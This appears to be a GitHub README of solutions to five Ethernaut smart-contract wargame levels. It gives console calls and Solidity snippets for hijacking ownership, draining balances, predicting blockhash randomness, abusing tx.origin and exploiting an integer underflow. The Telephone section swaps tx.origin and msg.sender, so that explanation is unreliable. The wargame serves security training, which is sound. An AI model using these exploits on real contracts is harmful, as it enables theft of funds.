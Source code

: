 # openzeppelin-ethernaut


## Fallback

The first step is to call the funtion contribute, to be able to call the fallback funtion a get the ownership of the contract 

`await contract.contribute({value: toWei("0.0001")});`

`await sendTransaction({ from: player, to: contract.address, value: toWei("0.0001")});`

After claiming the ownership of the contract, withdraw the total value of the contract, calling the withdraw method

`await contract.withdraw()`

## Fal1out

The alleged constructor is not well written, so it not called when the contract is created. To claim the ownership just call the Fal1out method and then withdraw the value of the contract calling the method collectAllocations

`await contract.Fal1out({value: toWei("0.0001")})`

`await contract.collectAllocations()`

## CoinFlip

Create a contract that calls the CoinFlip contract, this contract uses the same method to guess the coin side

`uint256 blockValue = uint256(blockhash(block.number.sub(1)));`
`uint256 coinFlip = blockValue.div(FACTOR);`
`bool guess = coinFlip == 1;`
`coinFlipContract.flip(guess);`

## Telephone

tx.origin and msg.sender should be different, to achieve this you can call the changeOwner method via another smart contract. This way the tx.origin(smar contract address) and msg.sender(user address) are not the same.

## Token

The smart contrac has an overflow vulnerability in every math operation, to solve this problem just call the transfer method (from other account) and send it to your main account.